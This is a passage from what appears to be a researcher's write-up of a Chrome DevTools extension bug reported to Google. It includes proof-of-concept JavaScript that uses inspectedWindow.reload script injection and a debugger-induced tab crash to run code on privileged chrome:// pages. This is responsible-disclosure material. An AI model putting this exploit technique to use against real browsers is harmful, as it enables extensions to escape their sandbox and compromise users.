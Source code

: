 ```
    }, 100)
  }

  //we're still on the original page, so reload the extension frame to retry
  else {
    location.reload();
  }
}

main();
```

And with that, I was ready to write the bug report. I finalized the script, wrote an explanation of the bug, tested it on multiple operating systems, and sent it in to Google.

At this point however, there was still a glaring problem: The race condition with `.inspectedWindow.reload()` was not very reliable. I managed to tweak it so that it worked about 70% of the time, but that still wasn't enough. While the fact that it worked at all definitely made it a serious vulnerability regardless, the unreliability would have reduced the severity by quite a bit. So then I got to work trying to find a better way.

A Familiar Approach
-------------------

Remember how I mentioned that in David Erceg's bug report, he utilized the fact that debugger requests persist after the tab crashes? I wondered if this exact method worked for `inspectedWindow.reload()` too, so I tested it. I also messed with the `debugger` statement, and it appeared that triggering the debugger twice in a row caused the tab to crash.

So I got to work writing a new POC:

```
let tab_id = chrome.devtools.inspectedWindow.tabId;

//function which injects the content script into the inspected page
function inject_script() {
  chrome.devtools.inspectedWindow.reload({"injectedScript": `
    //check the origin, so that the debugger is triggered instead if we are not on a chrome page
    if (!origin.startsWith("chrome://")) {
      debugger;
      return;
    }

    alert("hello from chrome.devtools.inspectedWindow.reload");`
  });
}

function sleep(ms) {
  return new Promise((resolve) => {setTimeout(resolve, ms)})
}

async function main() {
  //we have to reset the tab's origin here so that we don't crash our own extension process
  //this navigates to example.org which changes the tab's origin
  await chrome.tabs.update(tab_id, {url: "https://example.org/"});
  await sleep(500);
  //navigate to about:blank from within the example.org page which keeps the same origin
  chrome.devtools.inspectedWindow.reload({"injectedScript": `
      location.href = "about:blank";
    ` 
  })
  await sleep(500);

  inject_script(); //pause the current tab
  inject_script(); //calling this again crashes the tab and queues up our javascript
  await sleep(500);
```